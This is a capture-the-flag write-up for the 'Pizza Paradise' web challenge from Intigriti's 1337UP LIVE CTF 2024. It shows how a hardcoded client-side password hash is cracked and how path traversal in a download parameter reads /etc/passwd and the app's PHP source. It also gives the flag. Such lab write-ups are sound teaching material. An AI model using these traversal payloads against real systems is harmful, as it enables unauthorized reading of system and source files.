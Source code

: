 ```yaml
---
name: Pizza Paradise (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for Pizza Paradise (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pizza Paradise

## Challenge Description

> Something weird going on at this pizza store!!

## Solution

Players arrive at an online pizza store (AI making some tasty looking pizzas these days 🤤).

![](./images/0.PNG)

There is appears to be nothing of interest, but `/robots.txt` has something.

```txt
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```

It's some kind of top secret login portal 🕵️‍♂️
![](./images/1.PNG)

Check the page source.

```js
function hashPassword(password) {
    return CryptoJS.SHA256(password).toString();
}

function validate() {
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;

    const credentials = getCredentials();
    const passwordHash = hashPassword(password);

    if (username === credentials.username && passwordHash === credentials.passwordHash) {
        return true;
    } else {
        alert("Invalid credentials!");
        return false;
    }
}
```

The `getCredentials()` function is in `/assets/js/auth.js`.

```js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```

Crack the SHA256 hash with `hashcat`, `john` or [crackstation](https://crackstation.net).

```txt
agent_1337:intel420
```

Now we get access to the portal and can download some secret images.
![](./images/2.PNG)

The download function makes a GET request.

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/topsecret1.png
```

Maybe we can try `/etc/passwd`

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/etc/passwd
```

But we get an error: `File path not allowed!`

With some trial and error, it's clear that removing `/assets/images/` will cause problems. Let's try path traversal instead.

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../../../../etc/passwd
```

It works! We could try common locations for a `flag.txt` _or_ we could download the PHP source code of the web app 💡

```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```

Inside, we find the flag!

```php
$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```

Flag: `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`
